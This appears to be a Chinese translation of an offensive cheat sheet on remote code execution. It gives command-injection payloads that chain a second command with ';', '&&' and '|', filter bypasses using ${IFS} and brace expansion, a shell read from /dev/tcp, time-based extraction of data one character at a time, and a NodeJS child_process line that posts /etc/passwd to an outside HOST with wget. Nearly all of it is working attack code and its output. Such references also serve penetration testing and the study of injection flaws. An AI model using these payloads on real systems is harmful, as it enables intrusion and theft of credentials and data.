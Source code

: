 # 远程代码执行
远程代码执行是一个安全漏洞，它允许攻击者从远程服务器执行代码.
	

## 开发
正常的代码执行, 执行命令然后就是:p
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```

通过链接命令执行代码执行
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
```

没有空间的代码执行
```
swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

## 基于时间的数据漏出
数据提取:挨个字符进行
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```

## 环境基础
NodeJS代码执行
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## 感谢
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
